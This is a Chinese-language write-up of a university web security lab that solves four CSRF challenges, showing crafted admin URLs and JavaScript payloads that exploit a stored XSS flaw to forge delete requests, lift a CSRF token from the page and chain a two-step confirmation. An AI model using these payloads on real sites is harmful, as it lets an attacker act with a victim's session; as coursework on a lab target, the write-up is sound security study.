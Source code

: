 ### Web Security Assignment 2 - CSRF	Write up



#### Level 1.  

我们首先尝试一下直接删除这个帖子，利用调试工具截取网络数据包，发现这个参数传递主要借助 GET 传参方式，因此我们可以构造一个请求，利用 admin 本地的 cookie 对帖子进行操作。

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 19.01.40.png)

具体的 url 可以如下构造：

```
http://www.ctf-ruc.site:33181/admin.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33181%2Fapi.php%3Fid%3D1%26action%3Ddelete
```

实现了如下效果：

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 19.09.23.png)

#### Level 2.

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 19.16.47.png)

观察源代码，发现这一题中的传参方式改成了 POST，对于 POST 方法，想要单纯利用 URL 直接完成诱骗是比较困难的，然而本题目中却存在一个致命的 XSS 漏洞，而这个漏洞正是发布新帖子这个功能中产生的，具体的漏洞位置如下，在加载从后端收到的数据并渲染到前端时直接采用了  innerHTML 嵌入的方式，这给了我们注入代码的空间。

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 19.56.22.png)

由于要注入的代码比较长，我们可以通过外挂一个站外 js 脚本：

```javascript
/* csrf2.js */
fetch(`api.php`, {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: `id=1&action=delete`,
});
```

然后发布一个如下的帖子：

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 20.03.08.png)

然后输入如下的 url 进行 csrf 诱骗：

```
http://www.ctf-ruc.site:33184/index.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33184%2Findex.php
```

此时前端会被注入我们的站外脚本并随着页面加载自动执行，诱骗 admin 运行这段脚本会自动向后端发送一个 POST 请求，并且会以 admin 的身份认证进行，由此实现删除帖子效果。



#### Level 3.

本题与上一题唯一的不同就是使用了 token，但是 XSS 漏洞并没有被修复。更致命的是，这个 token 还被显式放在了前端，如下：

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 20.22.05.png)

我们还是使用一个站外脚本，通过 getElementById 方法可以精确的选中这个元素，并且在请求体中使用这个元素的 value 属性即可：

```javascript
/* csrf3.js */
const token = document.getElementById("csrf_token");
fetch(`api.php`, {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: `id=1&action=delete&csrf_token=${token.value}`,
});
```

然后发布一个新帖子：

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 20.19.13.png)

然后使用如下的 url 的模拟 csrf 诱骗：

```
http://www.ctf-ruc.site:33191/index.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33191%2Findex.php
```

admin 在打开主页时注入的脚本会从前端代码中提取出 token，并且将 token 填入请求自动发出，实现删除帖子的目的。



#### Level 4.

本题中删除了 token 防御方式，改为使用了一个两阶段的验证，但是 XSS 漏洞依然未修复。

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 20.27.00.png)

经过实验发现，如果越过第一阶段的验证采用和 Level 2 类似的方法直接发送请求后端会拒绝这个请求，因此我们还得通过一个脚本模拟两个阶段的请求。我们使用这样一个站外脚本：

```javascript
/* csrf4.js */
fetch(`api.php?action=confirm`, {
  method: "GET",
}).then((response) => {
  fetch(`api.php`, {
    method: "POST",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: `id=1&action=delete`,
  });
});
```

然后同样发布一个帖子：

![](/Users/shenyc/Pictures/Screenshot 2025-05-08 at 20.31.54.png)

然后我们使用一个同样的 url 模拟 csrf 诱骗即可：

```
http://www.ctf-ruc.site:33194/index.php?url=http%3A%2F%2Fwww.ctf-ruc.site%3A33194%2Findex.php
```

当 admin 打开链接时，会自动由站外脚本发起一个两阶段的请求，第一个完成确认，第二个完成请求的伪造，如此即可完成删除帖子的任务。



---

**Reference：**

为了保证靶机可以访问脚本，所有站外脚本以及本报告均已上传 github 仓库，链接：https://github.com/YichenShen0103/csrf-test，站外脚本通过 github page 引入，链接：https://yichenshen0103.github.io/csrf-test。
